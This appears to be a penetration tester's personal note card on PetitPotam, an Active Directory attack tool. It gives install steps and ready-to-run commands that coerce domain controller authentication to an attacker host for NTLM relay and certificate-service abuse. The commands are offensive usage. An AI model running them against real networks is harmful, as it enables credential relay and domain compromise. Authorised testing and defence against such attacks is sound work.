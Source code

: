 ```yaml
---
creation date: November 29th 2021
last modified date: November 29th 2021
aliases: []
tags: #🧰 
---
```


Primary Categories: [[01 - Operation]] 
Secondary Categories:  [[02 - Internal]]
Links: 
Search Tag: #🧰  

# [[PetitPotam]]  
___

## Description:
PetitPotam can be used to coerce machine account authentication to an attacker controlled host. This authentication can then be relayed, with a number of potential use cases, including ADCS web enrollment exploitation, shadow credential/RBCD attacks, and potentially as a substitiute for initial credential compromise.

## Installation
Clone from GitHub. There is no `requirements.txt` or `setup.py`, but you will need Impacket.
```
git clone https://github.com/topotam/petitpotam
pip3 install impacket
```

## Commands
Ensure something ([[Impacket#ntlmrelayx.py]] or [[Responder]] with lm downgrade) is listening to capture the authentication 

### Unauthenticated 
Attempt to coerce authentication from domain controllers, without prior authenticated access (only possible on DCs, and requires that they are unpatched)
```
python3 PetitPotam.py -u '' -p '' -d '' KALI_IP DC_IP
```

## Authenticated 
Attempt to coerce authentication from any domain Windows machine, using compromised authentication
```
python3 PetitPotam.py -u user1 -p Password1 -d domain.local KALI_IP DC_IP
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |
| https://github.com/topotam/PetitPotam | Git Repo |
| https://www.truesec.com/hub/blog/from-stranger-to-da-using-petitpotam-to-ntlm-relay-to-active-directory | ADCS Relay Example |

Created Date: December 17th 2021 (10:16 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
